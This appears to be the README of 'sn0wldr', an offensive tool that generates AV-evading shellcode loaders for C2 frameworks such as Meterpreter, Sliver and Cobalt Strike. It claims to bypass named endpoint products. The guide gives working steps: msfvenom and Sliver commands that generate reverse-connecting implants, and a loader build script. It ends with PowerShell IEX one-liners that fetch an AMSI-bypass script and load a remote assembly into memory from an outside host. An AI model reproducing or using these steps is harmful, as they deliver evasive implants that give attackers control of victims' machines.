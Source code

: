 # sn0wldr

## This is used to generate a AV bypassed sc loader.

up to test day, most common AVs can be bypassed: Windows defender, ATP, CS Falcon, Carbon Black, Red Canary, Cylance and McAfee.

### Install MONO when using Kali Linux / Debian Based Distributions

```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/debian stable-buster main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt-get install mono-complete
```

### Install MONO when using Ubuntu (tested for 22.04)

```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/ubuntu stable-focal main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt install mono-complete
```

### Currently supporting the following C2 plateform (It is now should be able to support any C2 if shellcode is provided):

- Meterpreter
- Covenent
- Sliver
- Cobalt Strike

### Feature

- Process Hollowing
- Behaviour detection bypass
- Random AES encryption
- Rewrite to use D/Invoke direct syscalls
- Add a new haloloader_template to use [SharpHalos](https://github.com/GetRektBoy724/SharpHalos), HaloGates direct syscalls methods to load shellcode

### Guide

1. Generate shellcode for supported C2 implant in raw format:
   For Sliver:

```
### To Generate a Sliver implant shellcode without obfuscation:
# [server] sliver > generate -N sliver --mtls 10.0.0.145 -b 10.0.0.145 --skip-symbols -f shellcode --save /root/Codes/sn0wldr/input/
# [*] Generating new windows/amd64 implant binary
# [!] Symbol obfuscation is disabled
# [*] Build completed in 00:01:25
# [*] Implant saved to /root/Codes/sn0wldr/input/sliver.bin
#
### Move the sliver.bin to folder input if required, then run the autogen script.
```

For Meterpreter:

```
### To Generate a Meterpreter implant shellcode without obfuscation:
# for x64
# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
# for x86
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
### Move the meterpreter.bin to folder input if required, then run the autogen script.
```

For CobaltStrike:

```
### To Generate a CS implant shellcode without obfuscation:
# Attacks -> Packages -> Payload Generator
# Choose Raw in Output area.
### Move the cobaltstrike.bin to folder input and rename to cobaltstrike.bin, then run the autogen script.
```

2. Move the generated shellcode bin file to `input` folder, and rename it as format: `<c2type>.bin`

3. Run the autogen script `autogen_loader.sh`, wait for couple of minutes and check the generated encrypted EXE in the output folder.

```
┌──(root💀TW-PenTestBox)-[~/myCodes/sn0wldr]
└─# ./autogen_loader.sh -h
[*] Usage: ./autogen_loader.sh -t <c2type> -a <target_os_arch> -s <syscall_type>
[*] Exg..: ./autogen_loader.sh -t sliver -a x64 -s halogate

[!] Make sure the shellcode bin file located in input folder and named as <c2type>.bin
[!] Currently c2type only support the following four:
[!] 	sliver|meterpreter|cobaltstrike|covenant
[!] Current directly syscall methods only support the following two:
[!] 	dinvoke|halogate
```

4. Since the generated executable file is Sharp Assembly, it can be chained with the tool [PowerSharpLoader](https://github.com/F4l13n5n0w/PowerSharpLoader) to load remotely into memory without touch disk, as shown in the following example:

```
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi3.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));
Invoke-LoadAssembly -AssemblyUrl https://not.o0.rs/halosli64x2.exe -Command ""
```

### To Do

- Add bananameowloader for even better AV bypass
- Add InlineExecute-Assembly BoF support for Sliver
